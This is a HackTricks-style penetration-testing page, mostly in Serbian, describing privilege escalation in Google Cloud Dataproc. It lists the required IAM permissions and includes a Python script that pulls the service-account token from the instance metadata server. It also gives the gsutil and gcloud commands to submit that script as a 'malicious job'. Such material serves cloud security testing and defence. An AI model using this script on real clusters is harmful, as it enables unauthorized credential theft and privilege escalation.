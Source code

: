 # GCP Dataproc Privilege Escalation

{{#include ../../../banners/hacktricks-training.md}}

## Dataproc

{{#ref}}
../gcp-services/gcp-dataproc-enum.md
{{#endref}}

### `dataproc.clusters.get`, `dataproc.clusters.use`, `dataproc.jobs.create`, `dataproc.jobs.get`, `dataproc.jobs.list`, `storage.objects.create`, `storage.objects.get`

Nisam mogao da dobijem reverznu školjku koristeći ovu metodu, međutim, moguće je da se iscuri SA token sa metadata endpoint-a koristeći metodu opisanu u nastavku.

#### Koraci za eksploataciju

- Postavite skriptu posla na GCP Bucket

- Pošaljite posao na Dataproc klaster.

- Koristite posao za pristup metadata serveru.

- Iscurite token servisnog naloga koji koristi klaster.
```python
import requests

metadata_url = "http://metadata/computeMetadata/v1/instance/service-accounts/default/token"
headers = {"Metadata-Flavor": "Google"}

def fetch_metadata_token():
try:
response = requests.get(metadata_url, headers=headers, timeout=5)
response.raise_for_status()
token = response.json().get("access_token", "")
print(f"Leaked Token: {token}")
return token
except Exception as e:
print(f"Error fetching metadata token: {e}")
return None

if __name__ == "__main__":
fetch_metadata_token()
```

```bash
# Copy the script to the storage bucket
gsutil cp <python-script> gs://<bucket-name>/<python-script>

# Submit the malicious job
gcloud dataproc jobs submit pyspark gs://<bucket-name>/<python-script> \
--cluster=<cluster-name> \
--region=<region>
```
{{#include ../../../banners/hacktricks-training.md}}
